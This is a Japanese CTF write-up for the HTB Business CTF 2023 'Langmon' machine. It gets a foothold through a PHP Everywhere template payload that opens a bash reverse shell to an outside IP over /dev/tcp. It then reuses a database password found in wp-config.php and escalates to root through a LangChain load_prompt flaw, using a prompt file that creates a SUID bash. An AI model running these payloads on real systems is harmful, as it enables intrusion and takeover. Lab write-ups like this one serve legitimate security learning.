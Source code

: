 ```yaml
---
layout: post
title: "[Fullpwn] Langmon (600 pts, x solved)"
published : true
permalink: /ctf/writeups/HTB_Business_CTF_2023/Fullpwn_Langmon
tags: [CTF, WriteUps, HTB Business CTF]
---
```

## Description
N/A

## Solution
### Enumeration
### Foothold
1. Wordpressにユーザ登録後、ログインする
1. Templatesメニュー >　ADD NEW で新規テンプレートを作成する
1. テンプレート内に "[php_everywhere]"を追記する
1. テンプレート一覧に戻り、作成したテンプレートの編集画面に移動する
1. PHP Everywhereの欄に以下のペイロードを追記し、テンプレートを保存する
```php
<?php system('bash -c "bash -i >& /dev/tcp/10.10.14.30/443 0>&1"');?>
```
1. nc でリバースシェルを待ち受ける
1. テンプレートをプレビューする

### User
1. wp-config.phpからDBの資格情報を入手する。
```
password: SNJQvwWHCK
```
1. 入手した資格情報でdeveloperにユーザを切り替える
```sh
su developer
```

### Root
1. `sudo -l`を実行すると、"/opt/prompt_loader.py"をルートで実行できることが確認できる
```sh
developer@langmon:~$ sudo -l
[sudo] password for developer:
Matching Defaults entries for developer on langmon:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User developer may run the following commands on langmon:
    (root) /opt/prompt_loader.py
```

- /opt/prompt_loader.py
```python
#!/usr/bin/python3
import sys
from langchain.prompts import load_prompt

def load(file):
        try:
                load_prompt(file)
        except:
                print("There is something wrong with the prompt file.")

if __name__ == "__main__":
        if len(sys.argv) != 2:
                print("Usage: prompt_loader.py <prompt_file_path>")
        else:
                file = sys.argv[1]
                load(file)
```

1. 以下で解説されている脆弱性を悪用する
https://github.com/hwchase17/langchain/issues/4849

1. ロードするprompt.pyを作成した。内容はSUIDフラグを持つbashを生成するもの。
- prompt.py
```python
from langchain.output_parsers.list import CommaSeparatedListOutputParser
from langchain.prompts.prompt import PromptTemplate
_DECIDER_TEMPLATE = """Given the below input question and list of potential tables, output a comma separated list of the table names that may be neccessary to answer this question.

Question: {query}

Table Names: {table_names}

Relevant Table Names:"""

import os
os.system('cp /bin/bash /tmp/bash;chmod 4777 /tmp/bash')
PROMPT = PromptTemplate(
    input_variables=["query", "table_names"],
    template=_DECIDER_TEMPLATE,
    output_parser=CommaSeparatedListOutputParser(),
)
```
1. 以下の通りルートを取得できた
```sh
developer@langmon:~$ sudo /opt/prompt_loader.py prompt.py
developer@langmon:~$ ll /tmp
total 1404
drwxrwxrwt  2 root     root        4096 Jul 15 04:25 ./
drwxr-xr-x 19 root     root        4096 Jul  5 11:21 ../
-rwsrwxrwx  1 root     root     1396520 Jul 15 04:25 bash*
-rw-------  1 www-data www-data   28948 Jul 15 04:07 phpJSuHOo
developer@langmon:~$

developer@langmon:~$ /tmp/bash -p
bash-5.1# id
uid=1000(developer) gid=1000(developer) euid=0(root) groups=1000(developer)
bash-5.1#
```